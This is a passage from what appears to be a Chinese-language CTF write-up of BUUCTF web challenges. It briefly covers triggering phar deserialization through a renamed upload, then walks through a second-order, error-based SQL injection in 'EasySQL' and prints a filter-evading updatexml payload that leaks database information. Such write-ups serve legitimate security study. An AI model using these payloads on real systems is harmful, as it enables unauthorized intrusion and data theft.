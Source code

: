 运行上面的代码, 生成一个`phar`文件:`phar.phar`,然后将其后缀名改为jpg后上传,在访问`delete.php`时如下传参就能够触发反序列化了

![image-20221026195251664](/images/buuctf-web2/image-20221026195251664.png)



<br>

***

<br>

# [二次注入,报错注入,SQL正则]EasySQL



这里试了好久,最后发现注册用户时, 用户名用`aaa"`,然后再修改密码页面才会有注入点

这里先不输入新旧密码,直接点`submit`会报错:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"aaa"" and pwd='7e3b7a5bafcb0fa8e8dfe3ea6aca9186'' at line 1
```

那么这里猜测修改密码的语句就差不多是:

```
update....... where name=username and pwd=oldpass 
这里由于我们的用户名是aaa" 所以会在name=username那里提前闭合产生了报错,那么注入点就在这里
```

这里只会回显报错信息,所以试一试报错注入

回到注册页面,用下面的payload作用户名(这里一开始有`and`和空格会被检测出来,所以换成`&&`和括号)

```
111"&&(updatexml(1,concat(0x7e,(select(user())),0x7e),1))#
```

来到修改密码页面, 随便输入两个新旧密码后点击提交:

![image-20221026211149576](/images/buuctf-web2/image-20221026211149576.png)
